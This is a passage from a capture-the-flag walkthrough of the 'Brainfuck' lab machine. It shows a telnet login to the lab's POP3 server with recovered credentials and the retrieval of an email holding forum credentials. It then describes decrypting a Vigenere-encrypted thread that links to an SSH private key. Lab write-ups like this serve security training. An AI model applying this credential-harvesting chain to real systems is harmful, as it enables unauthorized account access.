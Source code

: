 ![password](https://github.com/codetantrum/walkthroughs/blob/master/Brainfuck/images/Pasted%20image%2020211111193417.png)

orestis:kHGuERB29DNiNE

# Enumeration.2
Login as orestis to the POP3 server and check for email. The first email is the Wordpress welcome email. The second has plaintext credentials for sup3rs3cr3t.brainfuck.htb
```
┌──(code㉿kali)-[~]
└─$ telnet 10.10.10.17 110
Trying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
LIST
+OK 2 messages:
1 977
2 514
.
RETR 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
        id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)

Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
.

```

Login to the forum as orestis. 

![forum](https://github.com/codetantrum/walkthroughs/blob/master/Brainfuck/images/Pasted%20image%2020211111193930.png)

There is a conversation between orestis and the site admin regarding server SSH access. The discussion is moved to an encrypted thread which uses Vigenere cipher with key 'fuckmybrain' (borrowed from a write-up since cryptography is hard). In the thread, the admin provides a link to orestis SSH private key. Here's the decrypted link.
https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
